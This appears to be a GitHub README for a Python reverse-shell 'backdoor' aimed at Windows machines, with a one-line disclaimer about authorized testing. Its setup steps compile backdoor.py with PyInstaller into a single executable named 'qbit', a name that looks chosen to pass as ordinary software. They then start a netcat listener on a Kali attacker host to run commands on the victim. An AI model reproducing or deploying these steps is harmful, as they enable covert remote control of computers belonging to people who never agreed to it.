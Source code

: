 ## 🚨 Important:
Use this tool only on systems you own or have explicit permission to test. Unauthorized access to computer systems is illegal and unethical.

---

# 🚦 Features
- **Remote Command Execution:** Run system commands remotely on the target machine.  
- **Directory Navigation:** Change directories using `cd` commands.  
- **Simple Setup:** Easy to configure and deploy.  
---

## 🖥️ Requirements

### Attacker Machine (Kali Linux):
- Python 3.x  
- Netcat (`nc`) pre-installed (`apt install netcat`)  

### Target Machine (Windows):
- Python 3.x installed  
- Internet Connection  

---

## 🚀 Setup Instructions

### 1. Windows:
```bash
cd backdoor
pip install pyinstaller 
pyinstaller --onefile backdoor.py -n qbit
```
### 2. Kali Linux 
```bash 
nc -lvnp 7777
mkdir test 
dir 
del test
cd ../
```